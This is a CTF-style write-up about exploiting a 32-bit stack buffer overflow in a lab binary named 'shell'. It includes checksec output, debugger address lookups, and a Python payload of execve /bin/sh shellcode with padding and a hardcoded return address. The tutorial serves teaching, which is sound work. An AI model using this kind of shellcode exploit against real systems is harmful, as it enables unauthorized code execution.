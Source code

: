 ```yaml
---
description: Writing shellcode, but the buffer isn't provided?
---
```


# shell

{% file src="../../.gitbook/assets/shell.zip" %}

This binary is arguably more complex than `location`, and will be a lot more annoying. We'll understand why this is the case in a minute, but it lives up to the description that shellcodes may not be a good solution in all cases.

### Security Measures

Checking security, we see that

```nasm
$ checksec shell
[*] '/home/joybuzzer/Documents/vunrotc/public/02-shellcodes/shell/src/shell'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

We notice the stack is executable, meaning that shellcode is a possibility. The existence of a buffer overflow means that we can overwrite the return address of the function to jump to our shellcode.

We note that PIE is turned off. For the sake of simplicity, ASLR is turned off on the remote server, meaning that addresses will be static. This means that the write location is going to be static.

### Static Analysis

Checking the functions of the binary, it seems that `main()` and `read_in()` are the only functions that aren't standard library functions. Since there is no `win()`, we need to get the flag another way. We choose to pop a shell because (1) the stack is executable, (2) the stack is smashable, and (3) we can't get the flag any other way.

We see that `read_in()` allocates a buffer that is `0x134` large for our input. This is a _lot_ of room for us to use for shellcode.

### Crafting a Payload

This will be very similar to how it was done in `location`, so many details are omitted.

We use the same shellcode because the code follows the same architecture. We know that we need to adjust the buffer to size `0x138` to reach the return pointer.

The main difference is getting the address to jump. Unlike `location`, we are not provided this address. However, we discussed earlier that the address is statically chosen, meaning we have a tactical advantage. By looking in `gdb` at the location the binary chooses for writing, we have the address.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  p/x $ebp-0x134
$1 = 0xffffd484
```
{% endtab %}

{% tab title="Radare2" %}
[0x080491da]> pxw 4 @ ebp-0x134
0xffaf9914  0xffaf9960                                   `...
{% endtab %}
{% endtabs %}

We use this for our address we jump to. This makes the payload:

```python
payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x138, b'A')
payload += p32(0xffffd484)
```

### Sending it Off

Like the other binaries, we define the process and send it off. Just like that, we pop a shell and can `cat flag.txt` to get the flag.

_**Some Final Notes**: This threat model is implausible in reality. Having this many security features disabled is not something you're likely to see. This is more of an intro as to what shellcode is capable of. You should understand the basics of what the shellcode does and then how to execute shellcode against a binary._
